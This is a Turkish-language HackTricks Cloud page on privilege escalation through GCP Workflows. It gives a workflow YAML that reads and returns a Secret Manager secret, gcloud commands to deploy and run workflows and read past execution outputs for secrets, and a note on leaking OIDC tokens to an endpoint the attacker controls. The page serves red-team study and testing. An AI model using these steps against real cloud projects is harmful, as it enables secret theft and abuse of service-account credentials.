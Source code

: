 # GCP - Workflows Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Workflows

Temel Bilgiler:

{% content-ref url="../gcp-services/gcp-workflows-enum.md" %}
[gcp-workflows-enum.md](../gcp-services/gcp-workflows-enum.md)
{% endcontent-ref %}

### `workflows.workflows.create`, `iam.serviceAccounts.ActAs`, `workflows.executions.create`, (`workflows.workflows.get`, `workflows.operations.get`)

Bildiğim kadarıyla, bir Workflow'a bağlı SA'nın kimlik bilgilerini içeren metadata uç noktasına erişim ile bir shell almak mümkün değil. Ancak, Workflow içinde gerçekleştirilmesi gereken eylemleri ekleyerek SA'nın izinlerini kötüye kullanmak mümkündür.

Bağlayıcıların belgelerini bulmak mümkündür. Örneğin, bu [**Secretmanager bağlayıcısının sayfası**](https://cloud.google.com/workflows/docs/reference/googleapis/secretmanager/Overview)**.** Yan menüde birçok diğer bağlayıcıyı bulmak mümkündür.

Ve burada bir gizli bilgiyi yazdıran bir bağlayıcı örneğini bulabilirsiniz:
```yaml
main:
params: [input]
steps:
- access_string_secret:
call: googleapis.secretmanager.v1.projects.secrets.versions.accessString
args:
secret_id: secret_name
version: 1
project_id: project-id
result: str_secret
- returnOutput:
return: '${str_secret}'
```
CLI'dan güncelleme:
```bash
gcloud workflows deploy <workflow-name> \
--service-account=email@SA \
--source=/path/to/config.yaml \
--location us-central1
```
Eğer `ERROR: (gcloud.workflows.deploy) FAILED_PRECONDITION: Workflows service agent does not exist` gibi bir hata alırsanız, sadece **bir dakika bekleyin ve tekrar deneyin**.

Web erişiminiz yoksa, bir Workflow'un tetiklenmesini ve yürütülmesini görmek mümkündür: 

{% code overflow="wrap" %}
```bash
# Run execution with output
gcloud workflows run <workflow-name> --location us-central1

# Run execution without output
gcloud workflows execute <workflow-name> --location us-central1

# List executions
gcloud workflows executions list <workflow-name>

# Get execution info and output
gcloud workflows executions describe projects/<proj-number>/locations/<location>/workflows/<workflow-name>/executions/<execution-id>
```
{% endcode %}

{% hint style="danger" %}
Önceki yürütmelerin çıktısını kontrol ederek hassas bilgileri arayabilirsiniz.
{% endhint %}

İzin verilmediği için `PERMISSION_DENIED: Permission 'workflows.operations.get' denied on...` gibi bir hata alsanız bile, iş akışı oluşturulmuştur.

### OIDC token sızıntısı (ve OAuth?)

[**belgelere göre**](https://cloud.google.com/workflows/docs/authenticate-from-workflow) OAuth veya OIDC token ile bir HTTP isteği gönderecek iş akışı adımlarını kullanmak mümkündür. Ancak, [Cloud Scheduler](gcp-cloudscheduler-privesc.md) durumunda olduğu gibi, Oauth token ile yapılan HTTP isteği `.googleapis.com` ana bilgisayarına yapılmalıdır.

{% hint style="danger" %}
Bu nedenle, **kullanıcı tarafından kontrol edilen bir HTTP uç noktasını belirterek OIDC token sızıntısı yapmak mümkündür**, ancak **OAuth** token sızıntısı için bu korumayı **aşmanız gerekir**. Ancak, OAuth token ile ya bağlantılar ya da HTTP istekleri kullanarak **SA adına eylemler gerçekleştirmek için herhangi bir GCP API'si ile iletişim kurmaya devam edebilirsiniz.**
{% endhint %}

#### Oauth

{% code overflow="wrap" %}
```yaml
- step_A:
call: http.post
args:
url: https://compute.googleapis.com/compute/v1/projects/myproject1234/zones/us-central1-b/instances/myvm001/stop
auth:
type: OAuth2
scopes: OAUTH_SCOPE
```
{% endcode %}

#### OIDC
```yaml
- step_A:
call: http.get
args:
url: https://us-central1-project.cloudfunctions.net/functionA
query:
firstNumber: 4
secondNumber: 6
operation: sum
auth:
type: OIDC
audience: OIDC_AUDIENCE
```
### `workflows.workflows.update` ...

Bu izin ile `workflows.workflows.create` yerine, zaten mevcut bir iş akışını güncellemek ve aynı saldırıları gerçekleştirmek mümkündür.

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
